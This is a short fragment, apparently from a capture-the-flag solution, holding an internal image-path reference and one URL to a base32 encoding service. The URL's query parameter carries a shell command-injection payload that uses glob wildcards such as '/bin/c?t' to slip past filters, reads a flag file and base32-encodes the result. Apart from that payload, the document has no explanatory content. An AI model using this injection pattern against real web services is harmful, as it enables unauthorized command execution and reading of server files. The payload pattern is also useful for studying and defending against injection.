https://base32.splitline.tw/?string=$(base32%20%3C%3C%3C%20$(/bin/c?t%20/?lag_Vc1lT7Z6ZRvDtFnZU437BOgITml7IlLn))

